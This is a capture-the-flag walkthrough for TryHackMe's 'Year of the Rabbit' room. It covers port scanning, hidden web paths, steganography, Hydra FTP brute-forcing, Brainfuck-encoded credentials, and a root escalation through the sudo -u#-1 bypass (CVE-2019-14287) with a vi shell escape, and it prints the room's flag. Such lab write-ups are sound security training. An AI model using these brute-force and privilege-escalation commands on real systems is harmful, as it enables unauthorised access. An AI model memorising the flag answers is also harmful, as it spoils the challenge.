# TryHackMe: Year of the Rabbit

**Difficulty:** Easy  
**Platform:** TryHackMe  
**Category:** Web / Cryptography / Sudo PrivEsc  

---

## Overview & Attack Path
1. **Reconnaissance:** Port scanning with Nmap and web directory fuzzing with Gobuster.
2. **Web Discovery:** Finding a hidden PHP page in `styles.css` that disables redirects and reveals a hidden directory `/WExYY2Cv-qU`.
3. **Steganography & FTP:** Extracting hidden FTP credentials from `Hot_Babe.png` using `strings` and brute-forcing FTP with Hydra.
4. **Brainfuck Decoding:** Retrieving `Eli's_Creds.txt` from FTP and decoding Brainfuck to gain SSH access as user `eli`.
5. **Lateral Movement:** Finding Gwendoline's credentials in `/usr/games/s3cr3t` to capture the user flag.
6. **Privilege Escalation:** Exploiting the Sudo `sudo -u#-1` bypass vulnerability (CVE-2019-14287) on `/usr/bin/vi` to gain root access.

---

## Step 1: Reconnaissance (Nmap & Gobuster)

First, scan the machine to identify all open ports and running services:

```bash
nmap -p- --min-rate=10000 -T4 <TARGET_IP>
```

### Scan Results:
* **Port 21 (FTP):** `vsftpd`
* **Port 22 (SSH):** `OpenSSH`
* **Port 80 (HTTP):** `Apache`



---

## Step 2: Web Enumeration & Hidden Directories

Since port 80 is open, run Gobuster to discover hidden directories and files:

```bash
gobuster dir -u http://<TARGET_IP> -w /usr/share/wordlists/dirb/common.txt
```



A directory named `/assets` is discovered containing `styles.css` and `RickRolled.mp4`. Inspecting `styles.css` reveals a hidden PHP endpoint:



Visiting the PHP page displays a popup alert:



To bypass the JavaScript redirect loop:
1. **Option 1:** Disable JavaScript in Firefox (`about:config` → `javascript.enabled` = `false`).
2. **Option 2:** Open Developer Tools (F12) → Debugger to inspect the script logic.



Alternatively, curl the endpoint directly to avoid redirects and uncover the hidden path `/WExYY2Cv-qU`:



---

## Step 3: Steganography & FTP Brute-Forcing

Navigating to `/WExYY2Cv-qU` yields an image file named `Hot_Babe.png`:



Download the image and inspect it using the `strings` command:

```bash
strings Hot_Babe.png
```



The output reveals an FTP username **`ftpuser`** alongside a custom wordlist. Save the extracted words to `password.txt` and brute-force the FTP login with Hydra:

```bash
hydra -l ftpuser -P password.txt ftp://<TARGET_IP>
```



Connect to the FTP service with the cracked credentials:



Download the file `Eli's_Creds.txt`:

```text
ftp> get Eli's_Creds.txt
ftp> exit
```

---

## Step 4: Brainfuck Decoding & SSH Foothold

Inspect the contents of `Eli's_Creds.txt`:

```text
+++++ ++++[ ->+++ +++++ +<]>+ +++.< +++++ [->++ +++<] >++++ +.<++ +[->- 
--<]> ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> ----- --<]> ----- --.<+ 
++++[ ->--- --<]> -.<++ +++++ +[->+ +++++ ++<]> +++++ .++++ +++.- --.<+ 
++++ +++[- >---- ----- <]>-- ----- ----. ---.< +++++ +++[- >++++ ++++< 
]>+++ +++.< ++++[ ->+++ +<]>+ .<+++ +[->+ +++<] >++.. ++++. ----- ---.+ 
++.<+ ++[-> ---<] >---- -.<++ ++++[ ->--- ---<] >---- --.<+ ++++[ ->--- 
--<]> -.<++ ++++[ ->+++ +++<] >.<++ +[->+ ++<]> +++++ +.<++ +++[- >++++ 
+<]>+ +++.< +++++ +[->- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >+.<+ 
++++[ ->--- --<]> ---.< +++++ [->-- ---<] >---. <++++ ++++[ ->+++ +++++ 
<]>++ ++++. <++++ +++[- >---- ---<] >---- -.+++ +.<++ +++++ [->++ +++++ 
<]>+. <+++[ ->--- <]>-- ---.- ----. <
```

This text is encoded in **Brainfuck**. Decoding it reveals the SSH password for user `eli`.



Log in via SSH:

```bash
ssh eli@<TARGET_IP>
```



---

## Step 5: Lateral Movement to Gwendoline & User Flag

Upon logging in, a message notes:  
`"Gwendoline, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there"`

Search the filesystem for the secret directory:

```bash
find / -type d -name "*s3cr3t*" 2>/dev/null
```



The directory `/usr/games/s3cr3t` contains a note with Gwendoline's password. Switch to `gwendoline` and read the user flag:

```bash
su gwendoline
cat /home/gwendoline/user.txt
```

> **User Flag:** `THM{1107174691af9ff3681d2b5bdb5740b1589bae53}`

---

## Step 6: Privilege Escalation (Sudo CVE-2019-14287) & Root Flag

Check sudo permissions for user `gwendoline`:

```bash
sudo -l
```



The configuration permits running `/usr/bin/vi /home/gwendoline/user.txt` as any user *except* root (`(ALL, !root)`). This can be bypassed using the known Sudo UID `-1` flaw (**CVE-2019-14287**):

```bash
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```

Once inside `vi`, drop into a root shell by executing:
```text
:!/bin/sh
```

Retrieve the root flag from `/root/root.txt`:



---

## Summary of Answers

| Task / Question | Answer / Value |
| :--- | :--- |
| **FTP Username** | `ftpuser` |
| **SSH User** | `eli` |
| **User Pivot** | `gwendoline` |
| **User Flag** | `THM{1107174691af9ff3681d2b5bdb5740b1589bae53}` |
| **Root Exploit** | `CVE-2019-14287 (sudo -u#-1)` |
